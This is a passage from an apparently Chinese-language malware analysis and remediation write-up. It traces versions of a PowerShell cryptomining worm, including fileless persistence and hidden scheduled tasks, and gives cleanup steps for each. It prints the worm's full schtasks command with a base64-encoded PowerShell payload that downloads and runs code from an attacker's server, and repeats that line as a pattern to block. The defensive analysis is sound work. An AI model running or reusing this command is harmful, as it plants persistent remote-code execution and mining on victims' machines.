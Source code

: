 下载的模块解密后分别：设置任务计划，启动持久化机制，根据系统版本下载powershell挖矿脚本，下载攻击脚本进行横向传播

[![](https://p2.ssl.qhimg.com/t01739aed36fdd51fcf.png)](https://p2.ssl.qhimg.com/t01739aed36fdd51fcf.png)

[![](https://p0.ssl.qhimg.com/t014d75f087c0808053.png)](https://p0.ssl.qhimg.com/t014d75f087c0808053.png)

[![](https://p5.ssl.qhimg.com/t01d855222e94ffc7e8.png)](https://p5.ssl.qhimg.com/t01d855222e94ffc7e8.png)

**清除方案**

%appdata%中的flashplayer.tmp文件<br>
清除启动项中的快捷方式<br>
遍历任务计划，和版本2的方案一样，删除powershell任务计划

**1.4 版本4-无文件落地伊始**

该版本采用无文件落地形式在系统进行驻留，病毒感染成功后直接创建如下任务计划

schtasks /create /ru system /sc MINUTE /mo 40 /st 07:00:00 /tn “MicrosoftwindowsRass” /tr “powershell -nop -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdgAuAGIAZABkAHAALgBuAGUAdAAvAHcAbQA/AGgAZABwACcAKQA=” /F &amp;schtasks /run /tn “MicrosoftwindowsRass”

同样的，这些任务计划从黑客服务器中下载代码，并直接执行，传统的静态杀毒引擎并不能查杀它。

**清除方案**

遍历任务计划，清除powershell任务即可

**1.5 版本5-任务计划隐藏**

在版本4的基础上，利用某些windows版本对任务计划xml文件解析错误的bug，用特殊字符命名任务计划。导致在图形界面中显示不了该任务计划。

**清除方案**

要清除这些任务计划，到系统路径C:WindowsSystem32Tasks或C:WindowsTasks中，遍历这些xml文件，找到powershell任务相关的xml，删除。

**1.6 版本6-未知持久化**

个别机子新的变种中，有不明进程启动powershell，通过查看该powershell参数，确认这个是病毒启动的。但是这个powershell启动后，执行自退出，并没有进一步感染、挖矿、占用CPU。检查了一些持久化机制(计划任务、服务、启动项等没发现问题)但是定位不到启动方式。

虽然该powershell启动后自杀，并没有执行到恶意代码部分，但是不能保证后期不会再次爆发。

这个powershell 的父进程是 C:\Windows\svchost.exe，但是svchost.exe是系统的服务进程，系统服务依托了任务计划 wmi 等多个系统服务，检查了该PID下依托的服务都是正常的；用了360处理后发现360没有对这个进行查杀，但是实时监控powershell启动的参数，对类似如下参数启动的powershell进程进行阻断：

C:\Windows\System32\Windows\PowerShellv1.0\powershell.EXE -nop -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdgAuAGIAZABkAHAALgBuAGUAdAAvAHcAbQA/AGgAZABwACcAKQA=

**可行措施**

通过进程监控，获取powershell参数，判断是否为病毒阻止其执行。

**1.7整体查杀方案**

1）对于有二进制文件落地的版本，用云眼查杀；
